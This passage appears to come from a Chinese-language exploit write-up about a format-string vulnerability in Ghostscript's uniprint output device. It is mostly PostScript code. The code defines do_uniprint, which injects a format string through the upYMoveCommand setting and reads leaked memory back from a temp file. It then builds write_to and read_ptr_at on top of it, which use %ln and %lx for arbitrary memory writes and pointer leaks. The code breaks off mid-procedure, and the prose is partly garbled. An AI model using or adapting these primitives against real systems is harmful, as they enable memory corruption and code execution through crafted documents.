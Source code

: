 我们将uniprint格式字符串调用和文件读入到一个名为的 Postscript 过程中do_uniprint：  
  
```
% <StackString> <FmtString> do_uniprint <LeakedData>
/do_uniprint {
  /FmtString exch def % the format string payload to use
  /StackString exch def % which 8-byte string to put on the stack beforehand

  % Select uniprint device with our payload
  <<
    /OutputFile PathTempFile
    /OutputDevice /uniprint
    /upColorModel /DeviceCMYKgenerate
    /upRendering /FSCMYK32
    /upOutputFormat /Pcl
    /upOutputWidth 99999 % This gives a bigger buffer for our format string
    /upWriteComponentCommands {(x)(x)(x)(x)} % This is required, just put bogus strings
    /upYMoveCommand FmtString
  >>
  setpagedevice
  
  % Manipulate the interpreter to put controlled data on the stack
  (%%XX) StackString cat .runstring

  % Produce a page with some content to trigger format string logic
  newpath 1 1 moveto 1 2 lineto 1 setlinewidth stroke
  showpage

  % Read back the written data
  /InFile PathTempFile (r) file def
  /LeakedData InFile 4096 string readstring pop def
  InFile closefile

  LeakedData % return
} bind def
```  
  
  
这样我们就可以编写更高级别的程序write_to，，，：read_ptr_atread_dereferenced_bytes_atread_dereferenced_ptr_at  
  
```
% <StackIdx> <AddrHex> write_to
/write_to {
  /AddrHex exch str_ptr_to_le_bytes def % address to write to
  /StackIdx exch def % stack idx to use

  /FmtString StackIdx 1 sub (%x) times (_%ln) cat def

  AddrHex FmtString do_uniprint

  pop % we don't care about formatted data
} bind def
% <StackIdx> read_ptr_at <PtrHexStr>
/read_ptr_at {
  /StackIdx exch def % stack idx to use

  /FmtString StackIdx 1 sub (%x) times (__%lx__) cat def

  () FmtString do_uniprint

  (__) search pop pop pop (__) search pop exch pop exch pop
} bind def
% num_bytes <= 9
% <StackIdx> <PtrHex> <NumBytes> read_dereferenced_bytes_at <ResultAsMultipliedInt>
/read_dereferenced_bytes_at {
  /NumBytes exch def
```
